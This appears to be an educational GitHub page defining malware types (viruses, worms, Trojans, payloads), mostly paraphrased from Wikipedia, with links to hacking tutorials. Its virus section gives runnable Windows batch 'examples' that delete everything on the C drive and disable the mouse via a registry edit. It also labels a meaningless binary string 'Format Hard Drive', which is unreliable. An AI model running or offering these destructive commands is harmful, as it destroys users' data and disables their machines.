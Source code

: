 # Malicious Software (Malware)
Malicious software is any software used to disrupt computer operation, gather sensitive information, or gain access to private computer systems. Malware is sometimes used broadly against government or corporate websites to gather guarded information, or to disrupt their operation in general. However, malware is often used against individuals to gain information such as personal identification numbers or details, bank or credit card numbers, and passwords. Left unguarded, personal and networked computers can be at considerable risk against these threats. (These are most frequently defended against by various types of [firewall](http://en.wikipedia.org/wiki/Firewall_(computing)), anti-virus software, and network hardware).

![Malware by categories](http://upload.wikimedia.org/wikipedia/commons/thumb/e/ec/Malware_statics_2011-03-16-en.svg/600px-Malware_statics_2011-03-16-en.svg.png)

## Computer Virus
A Computer virus is a self-replicating program that spreads by inserting copies of itself into other executable code, documents or the boot sector of the hard drive. Viruses often perform some type of harmful activity on "infected" hosts, such as stealing hard disk space or CPU time, accessing private information, corrupting data, rendering the computer useless and so on. However, not all viruses carry a destructive payload or attempt to hide themselves - the defining characteristic of viruses is that they are self-replicating computer programs which install themselves without user consent.  
  

#### Examples
This examples are based on Windows machines but be careful if you are going to run it on Mac or Linux.  
  
*File format: *.bat* 
  
**Delete all the content of C Drive**
```
@Echo off
Del C:\*.*|y
```
  
**Disable Mouse**
```
rem ---------------------------------
rem Disable Mouse
set key="HKEY_LOCAL_MACHINE\system\CurrentControlSet\Services\Mouclass"
reg delete %key%
reg add %key% /v Start /t REG_DWORD /d 4
rem ---------------------------------
```
  
**Format Hard Drive**
```
01001011000111110010010101010101010000011111100000
```

## Computer Worm
A computer worm is a standalone malware computer program that replicates itself in order to spread to other computers. Often, it uses a computer network to spread itself, relying on security failures on the target computer to access it. Unlike a computer virus, it does not need to attach itself to an existing program. Worms almost always cause at least some harm to the network, even if only by consuming bandwidth, whereas viruses almost always corrupt or modify files on a targeted computer.  
Many worms that have been created are designed only to spread, and do not attempt to change the systems they pass through. However, as the [Morris worm](http://en.wikipedia.org/wiki/Morris_worm) and [Mydoom](http://en.wikipedia.org/wiki/Mydoom) showed, even these "payload free" worms can cause major disruption by increasing network traffic and other unintended effects. A "payload" is code in the worm designed to do more than spread the worm—it might delete files on a host system (e.g., the ExploreZip worm), encrypt files in a [cryptoviral extortion](http://en.wikipedia.org/wiki/Cryptovirology) attack, or send documents via e-mail. A very common payload for worms is to install a [backdoor](http://en.wikipedia.org/wiki/Backdoor_(computing)) in the infected computer to allow the creation of a "zombie" computer under control of the worm author. Networks of such machines are often referred to as botnets and are very commonly used by spam senders for sending junk email or to cloak their website's address. Spammers are therefore thought to be a source of funding for the creation of such worms, and the worm writers have been caught selling lists of IP addresses of infected machines.

*Hex dump of the [Blaster Worm](http://en.wikipedia.org/wiki/Blaster_(computer_worm))*  
![Blaster Worm](http://upload.wikimedia.org/wikipedia/commons/e/ec/Virus_Blaster.jpg)


## Trojan horse
A Trojan horse, or Trojan, in computing is generally a non-self-replicating type of malware program containing malicious code that, when executed, carries out actions determined by the nature of the Trojan, typically causing loss or theft of data, and possible system harm. The term is derived from the Ancient Greek story of the large wooden horse used to trick defenders of Troy into taking warriors concealed in the horse into their city in ancient Anatolia. The use of this name references how computer Trojans often employ a form of social engineering, presenting themselves as routine, useful, or interesting in order to persuade victims to install them on their computers.  
A Trojan often acts as a backdoor, contacting a controller which can then have unauthorized access to the affected computer. While Trojans and backdoors are not easily detectable by themselves, computers may appear to run slower due to heavy processor or network usage. Malicious programs are classified as Trojans if they do not attempt to inject themselves into other files (computer virus) or otherwise propagate themselves (worm). A computer may host a Trojan via a malicious program that a user is duped into executing (often an e-mail attachment disguised to be unsuspicious, e.g., a routine form to be filled in), or by [drive-by download](http://en.wikipedia.org/wiki/Drive-by_download).

## Payload
Payload is the cargo of a [data transmission](http://en.wikipedia.org/wiki/Data_transmission). It is the part of the transmitted data which is the fundamental purpose of the transmission, to the exclusion of information sent with it (such as headers or metadata, sometimes refferred to as overhead data) solely to facilitate delivery. In the analysis of malicious software such as worms, viruses and Trojans, it also refers to the software's harmful results. Examples of payloads include data destruction, messages with insulting text or spurious e-mail messages sent to a large number of people.

*Veli Payload Delivery with psexec*
![Veli Payload Delivery with psexec](http://i.ytimg.com/vi/SgsEAzGrT4k/maxresdefault.jpg)

## Resources
- [Malware](http://en.wikipedia.org/wiki/Malware)
- [Hack Like a Pro: Metasploit for the Aspiring Hacker, Part 3 (Payloads)](http://null-byte.wonderhowto.com/how-to/hack-like-pro-metasploit-for-aspiring-hacker-part-3-payloads-0157032)
- [Why Hackers Write Computer Viruses](http://gizmodo.com/5827405/why-hackers-write-computer-viruses)
- [Hacking With Notepad](http://www.instructables.com/id/Hacking-With-Notepad)
- [Who are the people behind the online threats?](http://www.bullguard.com/bullguard-security-center/internet-security/internet-threats/hackers-virus-writers-and-internet-criminals.aspx)
